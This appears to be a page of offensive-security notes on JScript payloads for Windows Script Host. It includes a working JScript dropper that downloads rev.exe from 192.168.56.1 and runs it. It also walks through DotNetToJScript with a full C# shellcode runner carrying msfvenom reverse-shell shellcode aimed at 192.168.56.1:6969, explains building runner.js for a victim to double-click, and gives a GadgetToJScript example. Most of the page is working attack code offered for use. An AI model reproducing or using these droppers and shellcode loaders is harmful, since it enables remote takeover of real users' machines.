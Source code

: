 # ⭕ JScript

## <mark style="color:red;">WSH</mark>

VBScript and Jscript are executed by the windows script host. they run by the windows scripting host (WSH). they run as a console application (cscript.exe) or a GUI app (wscript.exe). the engines are not implemented in wscript.exe or cscript.exe. but in vbscript.dll and jscript.dll. these are both activeX DLLs which contain activeX objects.

## <mark style="color:red;">Simple Dropper</mark>

```vba
var url = "http://192.168.56.1/rev.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
	var Stream = WScript.CreateObject('ADODB.Stream');
	Stream.Open();
	Stream.Type = 1;
	Stream.Write(Object.ResponseBody);
	Stream.Position = 0;

	Stream.SaveToFile("rev.exe", 2);
	Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("rev.exe");
```

## <mark style="color:red;">DotNetToJScript</mark>

{% embed url="https://github.com/tyranid/DotNetToJScript" %}

{% embed url="https://www.whiteoaksecurity.com/blog/2020-1-16-advanced-ttps-dotnettojscript-part-1" %}

A tool for generating a JScript which bootstraps an arbitrary .NET Assembly and class. this can be used to create advanced and complicated jscript payloads from a C# source code.

#### Open the project in visual studio, the `TestClass.cs`   will hold our custom C# payload for example a shellcode runner:

{% code title="TestClass.cs" %}
```csharp
//    This file is part of DotNetToJScript.
//    Copyright (C) James Forshaw 2017
//
//    DotNetToJScript is free software: you can redistribute it and/or modify
//    it under the terms of the GNU General Public License as published by
//    the Free Software Foundation, either version 3 of the License, or
//    (at your option) any later version.
//
//    DotNetToJScript is distributed in the hope that it will be useful,
//    but WITHOUT ANY WARRANTY; without even the implied warranty of
//    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
//    GNU General Public License for more details.
//
//    You should have received a copy of the GNU General Public License
//    along with DotNetToJScript.  If not, see <http://www.gnu.org/licenses/>.

using System;
using System.Diagnostics;
using System.Runtime.InteropServices;


[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
    dwMilliseconds);

        public TestClass()
        {
            // msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6969 exitfunc=thread  -f csharp -a x64
            byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x1b,0x39,0xc0,0xa8,0x38,0x01,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }

```
{% endcode %}

{% hint style="info" %}
The payload should be placed inside the `TestClass` class and replace the default content of the class.&#x20;
{% endhint %}

#### after replacing the payload, we need to change the architecture for which we want to build the `ExampleAssembly`   project inside the solution:

![](<../../.gitbook/assets/image (33) (1).png>)

#### set the architecture in the new window (same as the payload architecture):

![](<../../.gitbook/assets/image (29) (1) (1).png>)

![](<../../.gitbook/assets/image (48) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (24).png>)

![](<../../.gitbook/assets/image (31) (1).png>)

after building the solution, copy the `ExampleAssembly.dll,` `NDesk.Options.dll` and `DotNetToJScript.exe` files in the same folder and run the following command to create a new jscript payload:

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

when the victim double clicks the jscript file, the shellcode will be executed.

## <mark style="color:red;">GadgetToJScript</mark>

{% embed url="https://github.com/med0x2e/GadgetToJScript" %}

```csharp
#Create a constructor. Save as source.cs

using System;
using System.Diagnostics;

public class Same
 { 
  public Same()
   {
    Process.Start("calc.exe");
   }
 }
```

```
GadgetToJScript.exe -i source.cs -w js -r <Reference assembly> -o out.txt -f
```
